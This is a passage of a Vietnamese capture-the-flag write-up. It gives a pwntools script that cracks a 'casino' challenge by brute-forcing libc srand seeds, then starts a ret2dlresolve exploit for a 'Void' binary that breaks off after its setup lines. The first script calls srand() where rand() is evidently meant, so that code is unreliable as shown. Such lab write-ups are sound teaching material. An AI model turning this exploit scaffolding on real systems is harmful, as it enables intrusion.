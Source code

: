 from pwn import *
import ctypes
libc = ctypes.CDLL('libc.so.6')
context.binary = exe = ELF('./casino',checksec=False)


flag = ''
map_hehe = {}
for i in range(1,256):
        libc.srand(i)
        map_hehe[libc.srand()] = chr(i)

for i in range(30):
        value = exe.u32(exe.sym.check + i * 4)
        flag += map_hehe[value]
print(flag)
```

done 

![image](https://hackmd.io/_uploads/Sym1N01GJx.png)


---------

26 . Void  (ret2dlresolve )
---------

- 1 bài ret2dlresolve , tuy nhiên vẫn có thể làm theo 1 cách khác 

- ở đây ta thấy nó chỉ có mỗi read nên sẽ không leak được gì khác 


![image](https://hackmd.io/_uploads/rkkItOxMyl.png)


script 1 : 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./void',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

p = process()
#p = remote('83.136.254.158',46348)

# gdb.attach(p,gdbscript='''
#       b*vuln+25
#       b*vuln+32
#       c
#       ''')
# input()

